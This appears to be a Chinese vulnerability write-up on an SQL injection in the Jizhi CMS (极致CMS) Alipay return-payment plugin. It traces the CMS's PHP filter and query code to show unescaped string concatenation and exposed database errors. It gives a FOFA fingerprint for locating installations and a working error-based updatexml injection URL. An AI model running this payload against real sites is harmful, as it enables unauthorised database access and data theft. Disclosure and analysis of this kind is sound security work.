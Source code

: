 # 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

<a-checkbox checked>极致CMS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1657387632"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633500278668-c9cbbe05-5213-4454-a608-5f5cbe1c9e1b.png)

查看一下进行过滤的函数



```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```



看一下执行的SQL语句的函数



```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```



跟进 findAll 函数



```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```



在跟进一下getData函数



```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```



跟进query执行函数



```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```



- ✅看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出
- ✅一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入



例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子

![img](../../../.vuepress/public/img/jizhi-5.jpg)



这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证



可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入



![img](../../../.vuepress/public/img/jizhi-6.jpg)



可以看到的确出现了sql语句和数据库错误,直接报错注入获取敏感信息

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

![image-20220313235238670](../../../.vuepress/public/img/image-20220313235238670.png)